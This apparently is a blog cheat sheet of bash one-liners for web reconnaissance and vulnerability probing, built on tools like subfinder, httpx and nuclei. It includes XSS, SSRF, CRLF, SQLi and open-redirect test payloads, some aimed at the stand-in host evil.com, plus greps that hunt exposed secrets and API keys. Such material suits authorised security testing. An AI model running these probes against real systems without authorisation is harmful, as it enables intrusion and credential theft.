 ```yaml
---
title: "Hacking One Liners"
date: 2025-04-10 +0530
categories: [Cyber-Security]
tags: [one-liners, subfinder, httpx, nuclei, ffuf, gau, gospider, naabu, bash, shuffledns, dnsx, notify, recon, automation, js, token-hunting]
order: 3
image: /assets/images/Cyber-Security/One-Liners.png
---
```


A curated collection of powerful, compact one-liners used throughout reconnaissance, scanning, and early exploitation workflows. These are quick-fire tools for chaining recon steps, automating scans, or rapidly discovering weak points.

---

## Subdomains → Live Hosts → Scan

```bash
subfinder -d example.com -silent | httpx -silent | nuclei -silent -t ~/nuclei-templates -o results.txt
```

## Passive URLs → Filter → Nuclei

```bash
gau example.com | grep -iE '\.php|\.asp|\.aspx|\.jsp' | httpx -silent | nuclei -silent -o tech-findings.txt
```

## Quick Port Discovery + Probing

```bash
naabu -host example.com -top-ports 100 | httpx -silent -title -status-code
```

## Subdomains → Resolve → Probing → Nuclei

```bash
subfinder -d example.com -silent | dnsx -silent | httpx -silent | nuclei -t cves/ -o cve-scan.txt
```

## Wordlist Fuzz → Live Endpoint Test

```bash
ffuf -u https://example.com/FUZZ -w common.txt -mc 200 | awk '{print $1}' | httpx -silent | nuclei -o ffuf-discovered.txt
```

## Passive + Active URL Collect + Scan

```bash
(subfinder -d example.com; gau example.com) | sort -u | httpx -silent | nuclei -o passive-active-results.txt
```

## Filter JavaScript Files for Review

```bash
gau example.com | grep '\.js$' | sort -u | httpx -silent -mc 200 | tee js-live.txt
```

## Crawl → Extract URLs → Scan

```bash
gospider -s https://example.com -t 10 -q | grep -oP 'https?://[^ ]+' | httpx -silent | nuclei -silent -o spider-findings.txt
```

## Nuclei Fast Severity Filter

```bash
cat live.txt | nuclei -severity high,critical -silent -o high-crit.txt
```

## JS → Endpoint Extraction (deep)

```bash
cat js-live.txt | xargs -n1 -I{} curl -s {} | grep -oP 'https?://[^\"]+' | sort -u
```

## Open Redirect Detection

```bash
gau target.com | grep "=" | qsreplace 'https://evil.com' | httpx -silent -location -fr -mc 301,302 | grep 'evil.com'
```

## Param Mining + Fuzz

```bash
gau target.com | uro | grep "=" | gf xss | qsreplace 'FUZZ' | ffuf -u FUZZEDURL -w payloads.txt -mc 200
```

## SSRF Testing

```bash
cat urls.txt | gf ssrf | qsreplace 'http://your-burp-collab.com' | httpx -silent -fr
```

## XSS Reflected Testing

```bash
cat urls.txt | grep "=" | qsreplace '<svg onload=alert(1)>' | httpx -silent -mc 200 -sr | grep '<svg onload=alert(1)>'
```

## Sitemap Extractor

```bash
curl -s https://target.com/sitemap.xml | grep -oP '(?<=<loc>).*?(?=</loc>)'
```

## Git Folder Check

```bash
httpx -l subs.txt -path /.git/config -mc 200
```

## HTTP Method Tester

```bash
for m in GET POST PUT DELETE OPTIONS TRACE PATCH; do curl -X $m -I https://target.com | grep HTTP; done
```

## Form Extraction

```bash
cat alive.txt | xargs -n1 -I{} curl -s {} | pup 'form json{}' | jq .
```

## CORS Misconfig Check

```bash
curl -H 'Origin: https://evil.com' -I https://target.com | grep 'Access-Control-Allow-Origin'
```

## SQLi Prober

```bash
gau target.com | grep "=" | qsreplace "'" | httpx -silent -mc 500,403,400
```

## CRLF Injection Test

```bash
cat urls.txt | qsreplace '%0d%0aPoC:CRLF' | httpx -silent -fr -mc 200 | grep 'PoC:CRLF'
```

## Email Discovery

```bash
gau target.com | xargs -n1 curl -s | grep -Ei '[a-z0-9._%+-]+@[a-z0-9.-]+\.[a-z]{2,}' | sort -u
```

## Find Secrets in JS

```bash
cat js-live.txt | xargs -n1 curl -s | grep -Eo 'API_KEY|api_key|secret|Bearer [A-Za-z0-9\\-_\\.]+' | sort -u
```

## Extension/Backup File Discovery

```bash
gau target.com | grep -iE '\.zip|\.gz|\.sql|\.tar|\.bak' | httpx -silent -mc 200
```

## Wayback Param Harvesting

```bash
gau target.com | cut -d '?' -f2 | cut -d '&' -f1 | sort -u
```

## Dangling Subdomain Takeover Check

```bash
subfinder -d target.com -silent | dnsx -a -cname -resp-only | grep -iE 'github|heroku|amazonaws'
```

## Mirror Target Webpage

```bash
wget --mirror --convert-links --adjust-extension --page-requisites --no-parent https://target.com
```

## Clean Noise from URLs

```bash
cat all-urls.txt | grep -vE '\.(png|jpg|jpeg|gif|svg|css|ico|woff|ttf|pdf)$' | sort -u
```

## Dedupe + Filter Live URLs

```bash
cat urls.txt | sort -u | httpx -silent -mc 200 | anew final.txt
```